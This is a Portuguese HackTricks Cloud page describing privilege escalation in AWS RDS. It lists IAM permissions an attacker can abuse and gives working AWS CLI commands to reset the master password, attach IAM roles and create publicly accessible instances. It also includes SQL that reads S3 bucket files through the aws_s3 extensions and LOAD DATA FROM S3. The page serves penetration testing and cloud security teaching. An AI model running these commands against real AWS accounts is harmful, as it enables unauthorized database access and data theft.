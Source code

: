 # AWS - Escalação de Privilégios no RDS

<details>

<summary><strong>Aprenda hacking na AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

## RDS - Serviço de Banco de Dados Relacional

Para mais informações sobre o RDS, verifique:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Com essa permissão, um atacante pode **modificar a senha do usuário mestre** e o login dentro do banco de dados:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Você precisará ser capaz de **entrar em contato com o banco de dados** (geralmente só são acessíveis de dentro das redes).
{% endhint %}

**Impacto Potencial:** Encontrar informações sensíveis dentro dos bancos de dados.

### rds-db:connect

De acordo com a [**documentação**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) um usuário com essa permissão poderia se conectar à instância do banco de dados.

### Abuso das permissões IAM do RDS Role

#### Postgresql (Aurora)

{% hint style="success" %}
Se ao executar **`SELECT datname FROM pg_database;`** você encontrar um banco de dados chamado **`rdsadmin`** você saberá que está dentro de um **banco de dados postgresql da AWS**.
{% endhint %}

Primeiro, você pode verificar se este banco de dados foi usado para acessar qualquer outro serviço da AWS. Você poderia verificar isso olhando as extensões instaladas:
```sql
SELECT * FROM pg_extension;
```
Se encontrar algo como **`aws_s3`**, você pode assumir que este banco de dados tem **algum tipo de acesso sobre o S3** (há outras extensões como **`aws_ml`** e **`aws_lambda`**).

Além disso, se tiver permissões para executar **`aws rds describe-db-clusters`**, você pode verificar se o **cluster tem algum IAM Role anexado** no campo **`AssociatedRoles`**. Se houver, você pode assumir que o banco de dados foi **preparado para acessar outros serviços da AWS**. Com base no **nome da função** (ou se puder obter as **permissões** da função), você poderia **adivinhar** quais acessos extras o banco de dados possui.

Agora, para **ler um arquivo dentro de um bucket**, você precisa saber o caminho completo. Você pode lê-lo com:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Se você tivesse **credenciais AWS brutas** você também poderia usá-las para acessar dados do S3 com:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
O Postgresql **não precisa alterar nenhuma variável do grupo de parâmetros** para poder acessar o S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Dentro de um mysql, se você executar a consulta **`SELECT User, Host FROM mysql.user;`** e houver um usuário chamado **`rdsadmin`**, você pode assumir que está dentro de um **banco de dados AWS RDS mysql**.
{% endhint %}

Dentro do mysql, execute **`show variables;`** e se as variáveis como **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, tiverem valores, você pode assumir que o banco de dados está preparado para acessar dados do S3.

Além disso, se você tiver permissões para executar **`aws rds describe-db-clusters`** você pode verificar se o cluster tem algum **papel associado**, o que geralmente significa acesso aos serviços da AWS).

Agora, para **ler um arquivo dentro de um bucket** você precisa saber o caminho completo. Você pode lê-lo com:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Um atacante com as permissões `rds:AddRoleToDBCluster` e `iam:PassRole` pode **adicionar uma função especificada a uma instância RDS existente**. Isso poderia permitir que o atacante **acesse dados sensíveis** ou modifique os dados dentro da instância.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Impacto Potencial**: Acesso a dados sensíveis ou modificações não autorizadas nos dados na instância RDS.\
Note que alguns bancos de dados requerem configurações adicionais, como o Mysql, que precisa especificar o ARN da função nos grupos de parâmetros também.

### `rds:CreateDBInstance`

Apenas com essa permissão, um atacante poderia criar uma **nova instância dentro de um cluster** que já existe e tem uma **função IAM** anexada. Ele não poderá alterar a senha do usuário mestre, mas pode expor a nova instância do banco de dados à internet:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Um atacante com as permissões `rds:CreateDBInstance` e `iam:PassRole` pode **criar uma nova instância RDS com uma função especificada anexada**. O atacante pode então potencialmente **acessar dados sensíveis** ou modificar os dados dentro da instância.

{% hint style="warning" %}
Alguns requisitos da função/perfil de instância para anexar (de [**aqui**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* O perfil deve existir em sua conta.
* O perfil deve ter uma função IAM que a Amazon EC2 tem permissão para assumir.
* O nome do perfil da instância e o nome da função IAM associada devem começar com o prefixo `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Impacto Potencial**: Acesso a dados sensíveis ou modificações não autorizadas nos dados na instância RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Um atacante com as permissões `rds:AddRoleToDBInstance` e `iam:PassRole` pode **adicionar uma função especificada a uma instância RDS existente**. Isso poderia permitir que o atacante **acesse dados sensíveis** ou modifique os dados dentro da instância.

{% hint style="warning" %}
A instância do banco de dados deve estar fora de um cluster para isso.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Impacto Potencial**: Acesso a dados sensíveis ou modificações não autorizadas nos dados na instância RDS.

<details>

<summary><strong>Aprenda hacking na AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
